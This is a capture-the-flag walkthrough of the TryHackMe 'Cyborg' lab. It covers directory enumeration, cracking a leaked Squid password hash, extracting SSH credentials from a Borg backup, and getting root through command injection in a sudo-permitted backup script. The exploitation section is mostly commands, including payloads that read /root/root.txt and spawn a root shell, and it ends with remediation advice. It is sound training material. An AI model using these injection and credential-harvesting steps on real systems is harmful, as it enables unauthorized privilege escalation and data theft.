








<div align="center">
  <a href="../README.md">⬅️ <b>Back to TryHackMe Tracker</b></a>
</div>

<br>

<div align="center">
  <h1>🤖 Cyborg Machine Walkthrough 🤖</h1>
  <p><b>Platform:</b> TryHackMe | <b>Difficulty:</b> Medium | <b>Target IP:</b> 10.49.182.220 | <b>Target OS:</b> Linux (Ubuntu)</p>
  <p><i>Date Completed: 01 October 2026</i></p>

[](https://tryhackme.com/)
[](./README.md)
[-success?style=flat-square&logo=checkmarx)](./README.md)
[](https://attack.mitre.org/)
</div>

---

## 🎯 Target & Mission Objective
> **Compromise the Cyborg machine by enumerating exposed Apache directories, cracking an MD5 crypt password hash, extracting credentials from an encrypted Borg backup archive, establishing an SSH foothold as user `alex`, and escalating to `root` via command injection in a misconfigured sudo backup script.**

- **Target IP:** `10.49.182.220`
- **Target Operating System:** Linux (Ubuntu 18.04 / 20.04 LTS)
- **Key Services Audited:** OpenSSH 7.2p2 (Port 22), Apache httpd 2.4.29 (Port 80)

<div align="center">
  
  <br><i>Figure 1: Initial Nmap port scan exposing SSH and Apache web services.</i>
</div>

<br>

## 🛠️ Tools & Technologies Used
| Tool | Purpose in Assessment |
| :--- | :--- |
| **Nmap** | Initial TCP port scanning, OS detection, and service banner enumeration. |
| **Gobuster** | Web directory and file brute-forcing (`common.txt`). |
| **John the Ripper** | Offline dictionary cracking of Apache `md5crypt` password hashes with `rockyou.txt`. |
| **Borg Backup** | Inspecting, authenticating, and extracting encrypted repository archives. |
| **OpenSSH Client** | Remote terminal access and user foothold authentication. |
| **Linux Sudo** | Auditing administrative delegation and exploiting GTFOBins command injection. |

<br>

---

## 🗺️ MITRE ATT&CK® Enterprise Mapping
| Tactic | Technique ID | Technique Name | Description in Challenge |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Service banner grabbing and directory enumeration |
| **Discovery** | `T1083` | File and Directory Discovery | Discovering exposed `/admin` and `/etc` directory listings |
| **Credential Access** | `T1110.002` | Brute Force: Password Cracking | Cracking Squid proxy password hash (`squidward`) with John |
| **Collection** | `T1005` | Data from Local System | Extracting Borg backup archive containing Alex's SSH credentials |
| **Initial Access** | `T1078` | Valid Accounts | Logging into target via SSH using harvested credentials (`alex:S3cretP@s3`) |
| **Privilege Escalation**| `T1548.003` | Abuse Elevation Control: Sudo and Sudoers | Abusing command substitution in `/etc/mp3backups/backup.sh` to obtain root |

<br>

---

## 🔍 1. Reconnaissance & Enumeration

### 🌐 Network Scanning
We begin by conducting an aggressive Nmap service version and script scan (`-sV -sC`) against `10.49.182.220`:

```bash
nmap -sV -sC 10.49.182.220
```

**Port Scan Findings:**
- **Port 22/tcp:** `OpenSSH 7.2p2 Ubuntu 4ubuntu2.10`
- **Port 80/tcp:** `Apache httpd 2.4.29 ((Ubuntu))`

<br>

### 📂 Directory Fuzzing
Running `gobuster` against the web server reveals several interesting endpoints:

```bash
gobuster dir -u http://10.49.182.220/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak,old,zip
```

<div align="center">
  
  <br><i>Figure 2: Gobuster discovers the /admin and /etc endpoints.</i>
</div>

### 🕵️ Web Enumeration & Developer Leakage
Navigating to the `/admin` portal, we observe a developer shoutbox referencing a Squid proxy configuration and a backup named `music_archive`:

<div align="center">
  
  <br><i>Figure 3: The admin shoutbox hinting at the music_archive backup.</i>
</div>

Exploring the `/etc` directory exposed through Apache directory indexing, we find Squid configuration files. Specifically, `/etc/squid/passwd` discloses an Apache-compatible MD5 crypt password hash:

```text
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

<div align="center">
  
  <br><i>Figure 4: Exposed squid password hash file within /etc/squid/passwd.</i>
</div>

<br>

---

## 🚪 2. Exploitation & Initial Foothold

### 🔐 Offline Password Hash Cracking
We format the hash and run **John the Ripper** with the standard `rockyou.txt` dictionary:

```bash
printf '%s\n' 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > /tmp/squid_hash
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt /tmp/squid_hash
```

<div align="center">
  
  <br><i>Figure 5: Successfully cracking the hash to reveal the password "squidward".</i>
</div>

- **Harvested Password:** `squidward`

---

### 📦 Borg Backup Extraction & Credential Recovery
The admin panel provides a download link to `archive.tar`. Downloading and extracting the archive reveals a **Borg Backup** repository structure:

<div align="center">
  
  <br><i>Figure 6: Inspecting the extracted Borg backup repository.</i>
</div>

Leveraging the cracked password `squidward` as the Borg repository passphrase, we extract the archive:

```bash
BORG_PASSPHRASE=squidward borg extract /tmp/music_repo/home/field/dev/final_archive::music_archive
```

Inspecting the extracted files exposes a personal note containing SSH credentials for user `alex`:
- **Username:** `alex`
- **Password:** `S3cretP@s3`

---

### 💻 SSH Foothold
We establish an interactive SSH session on port 22 using Alex's credentials:

```bash
ssh alex@10.49.182.220
# Password: S3cretP@s3
```

<div align="center">
  
  <br><i>Figure 7: Successfully logging in via SSH and enumerating Alex's home directory.</i>
</div>

Reading `user.txt`:
```bash
cat user.txt
```
```text
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

<br>

---

## ⚡ 3. Privilege Escalation to Root

### ⚙️ Sudo Enumeration & Vulnerability Identification
We check the administrative permissions assigned to `alex`:

```bash
sudo -l
```

**Output:**
```text
Matching Defaults entries for alex on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alex may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Alex can execute `/etc/mp3backups/backup.sh` as root without entering a password. Inspecting the script source code:

```bash
cat /etc/mp3backups/backup.sh
```

The script parses options using `getopts` and handles the `-c` parameter dangerously:
```bash
while getopts c: flag
do
    case "${flag}" in
        c) command=${OPTARG};;
    esac
done

# Insecure command substitution:
cmd=$($command)
echo $cmd
```

Because `$command` is evaluated directly inside command substitution `$($command)`, any shell string supplied to `-c` is executed under the invoking user's context (**root**).

<div align="center">
  
  <br><i>Figure 8: Reading the user flag, checking sudo permissions, and inspecting the vulnerable backup script.</i>
</div>

---

### 👑 Exploitation: Root Code Execution
We trigger the `-c` flag with a root payload to extract the root flag directly (or launch a reverse root shell):

```bash
sudo /etc/mp3backups/backup.sh -c '/bin/cat /root/root.txt'
```

**Output:**
```text
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

To gain an interactive root shell:
```bash
sudo /etc/mp3backups/backup.sh -c '/bin/bash'
whoami
# root
```

<br>

---

## 🏁 4. Captured Flags

| Flag Name | Value | Discovery Location |
| :--- | :--- | :--- |
| **User Flag** | `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}` | `/home/alex/user.txt` |
| **Root Flag** | `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}` | `/root/root.txt` |

<br>

---

## 🛡️ 5. Vulnerability Risk Ratings & Defensive Hardening

### 📊 CVSS v3.1 Findings Matrix
| Finding | Severity | CVSS v3.1 Score | Vector String |
| :--- | :---: | :---: | :--- |
| **Sudo Command Substitution Injection (`backup.sh -c`)** | 🔴 **Critical** | **9.8** | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **Encrypted Backup Exposure via Webroot (`archive.tar`)** | 🔴 **High** | **7.5** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **Sensitive Password File Exposure via Directory Indexing** | 🔴 **High** | **7.5** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **Weak Password Hashing & Password Reuse (`squidward`)** | 🟡 **Medium** | **5.3** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` |

<br>

<details>
<summary><b>Click to expand root cause analysis & secure implementation guide</b></summary>
<br>

### 📌 1. Dangerous Sudoers Script Input Evaluation
- **Root Cause:** The `backup.sh` script executes arbitrary commands passed to `-c` via `cmd=$($command)` without validation or sanitization.
- **Remediation:** Never evaluate arbitrary command arguments directly in privileged shell scripts. Hardcode permitted operations or validate against a strict allowlist:
  ```bash
  # SECURE ALTERNATIVE: Remove arbitrary command evaluation
  case "$action" in
      run_backup)
          tar -czf /var/backups/archive.tar.gz /home/alex/mp3/
          ;;
      *)
          echo "Invalid action" >&2
          exit 1
          ;;
  esac
  ```

### 📌 2. Public Exposure of Backup Archives & Configuration Directories
- **Root Cause:** Backup archives (`archive.tar`) and configuration paths (`/etc/squid/`) were placed directly in the web server's document root with directory indexing enabled.
- **Remediation:** Store backup files outside `/var/www/html/` and disable Apache directory listings:
  ```apache
  <Directory /var/www/html>
      Options -Indexes
  </Directory>
  ```

### 📌 3. Password Reuse across Services
- **Root Cause:** The same weak passphrase (`squidward`) was used for both Squid authentication and Borg archive encryption.
- **Remediation:** Enforce unique, cryptographically strong passphrases for all backup systems and administrative services.
</details>

<br>

---

## 🧠 6. Key Learnings & Takeaways
- **Directory Browsing as an Initial Recon Vector:** Exposed directories like `/etc` and `/admin` provide attackers with high-value technical context and downloadable assets without requiring active exploits.
- **Backup Forensics:** Encrypted backups (`borg`, `restic`) are only as secure as their passphrases. Reusing passwords across public services compromises offline backup archives.
- **Scripted Sudo Pitfalls:** Even custom bash scripts granted via `sudo` can inadvertently create trivial root shells if user-supplied inputs are evaluated using `eval`, `$(...)`, or backticks.

---
<div align="center">
  <i>Walkthrough completed on 01 October 2026. Documented for TryHackMe Portfolio.</i>
</div>
